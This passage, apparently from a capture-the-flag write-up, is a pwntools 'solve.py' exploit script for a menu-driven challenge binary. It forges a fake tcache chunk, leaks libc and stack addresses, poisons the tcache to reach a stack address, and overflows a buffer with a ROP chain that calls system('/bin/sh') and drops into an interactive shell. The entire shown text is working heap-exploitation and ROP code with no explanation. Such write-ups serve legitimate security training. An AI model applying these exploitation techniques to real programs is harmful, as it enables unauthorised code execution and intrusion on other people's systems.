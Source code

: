 ```py
p.sendafter(b"reflection?\n", payload)
p.sendlineafter(b"Action: ", b"3")

# create fake tcache chunk to be freed
p.sendafter(b"> ", b"\x00"*0x8 + p64(0x111) + b"\x00"*0x18 + p64(0x4040e0) + b"\x00"*0x20 + p64(0x404110))
p.sendlineafter(b"Action: ", b"1")
p.recvuntil(b"Name: ")
leak = unpack(p.recvuntil(b" ", drop=True), "all") -2219328
libc.address = leak + 9664
log.info(f"leak @ {hex(leak)}")

p.sendlineafter(b"Action: ", b"4")
p.sendlineafter(b"> ", b"1")

p.sendlineafter(b"Action: ", b"3")
p.sendafter(b"> ", b"\x00"*0x18 + p64(leak))

p.sendlineafter(b"Action: ", b"1")
p.recvuntil(b"Name: ")
stack_leak = unpack(p.recvuntil(b" ", drop=True), "all")
log.info(f"stack leak @ {hex(stack_leak)}")

payload = b"A"*0xe80
payload += p64(0x0) + p64(0x291)
payload += p16(0x0)*15
payload += p16(0x1)
payload += p16(0x0)*48
payload += p64(0x0)*15
payload += p64(stack_leak-0x50)

rop = ROP(libc)
rop.call(rop.ret)
rop.system(next(libc.search(b"/bin/sh\x00")))

p.sendlineafter(b"Action: ", b"2")
p.sendlineafter(b"> ", str(2**31).encode()) # prepare for buffer overflow
p.sendlineafter(b"Action: ", b"7")
p.sendafter(b"reflection?\n", payload)
p.sendlineafter(b"Action: ", b"3")
p.sendlineafter(b"> ", b"A"*8 + rop.chain())

p.interactive()
```
{:. file="solve.py"}

